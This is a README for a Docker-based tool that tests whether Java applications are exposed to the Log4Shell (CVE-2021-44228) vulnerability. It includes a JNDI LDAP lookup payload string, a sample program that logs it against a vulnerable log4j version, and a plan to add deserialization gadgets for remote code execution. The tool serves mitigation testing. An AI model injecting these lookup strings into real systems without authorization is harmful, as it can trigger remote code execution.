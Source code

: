 # log4shell-ldap
A tool for checking [log4shell](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability mitigations.

## Usage:
- Build a container image: `docker build . -t log4shell`
- Run it: `docker run -p 3000:3000 -p 1389:1389 -e publicIp=<IP> log4shell`

Replace `<IP>` with an actual IP address of the host running the container. For local tests `localhost` should work just fine. 

Once the tool is running use `curl` to test it's reachable: `curl http://localhost:3000` 

This should print something like this:
```
$ curl http://localhost:3000
To test an application try to make log4j print ${jndi:ldap://localhost:1389/probably_not_vulnerable}
```
This output indicates the tool is running and curl was able to connect to it. 
If `curl` fails then check the IP address passed to `docker run`.

Assuming the `curl` test works then you can test an actual Java application. 
This is the simplest Java application:
```java
package mypackage;

import org.apache.logging.log4j.LogManager;

public class Main {
    public static void main(String[] args) throws Exception {
        LogManager.getLogger(Main.class).fatal("${jndi:ldap://<IP>:1389/probably_not_vulnerable}");
    }
}
```
Again, replace `<IP>` with the IP address you used to start a container image. 
To compile it with Maven you will have to add following dependency into`pom.xml`:
```xml
<dependency>
  <groupId>org.apache.logging.log4j</groupId>
  <artifactId>log4j-core</artifactId>
  <version>2.14.1</version>
</dependency>
```
The application has 3 possible outcomes:
- Prints _totally pwned!_. This is happening when a vulnerable log4j2 version is executed on old Java.
   This is the worst case as it allows a very simple arbitrary remote code execution.
- Prints _Reference Class Name: probably vulnerable_. This means a vulnerable log4j2 version is executed on recent Java.
   This makes it a bit harder to abuse the vulnerability, but RCE may still be possible. There are also information disclosure & DoS issues.
   To avoid any possible ambiguity: Don't rely on recent Java. Upgrade your log4j2 to >=2.15.0. 
- Prints _${jndi:ldap://<IP>:1389/probably_not_vulnerable}_
   This means the application is either not vulnerable or the test is misconfigured :)

## Development Setup
To compile the tool outside a container you have to build Java payload first. You can do this by running
a script prepareLocalEnv.sh. This requires JDK8 to be available. The script was tested on Linux only, I appreciate reports
how it works on other platforms.


## TODO
- Refactoring. The code is simply hideous. 
- Public container into DockerHub. Is this a good idea?
- Include Gadgets from the [yoserial project](https://github.com/frohoff/ysoserial) to try to RCE when running 
on recent Java updates. 

## Disclaimer
This is an educational tool created purely for purposes of checking various log4shell mitigations and is not intended
to be used to attack systems except where explicitly authorized. 
Author is not responsible or liable for misuse of the software. Use responsibly.

## Credits
- [yoserial project](https://github.com/frohoff/ysoserial) for the disclaimer:)
- Examples in the [goldap project](https://github.com/vjeantet/ldapserver/blob/9f1711e226a4d7984fd4c9d341a13537a38546a7/examples/complex/main.go). I used the Complex example as a template.
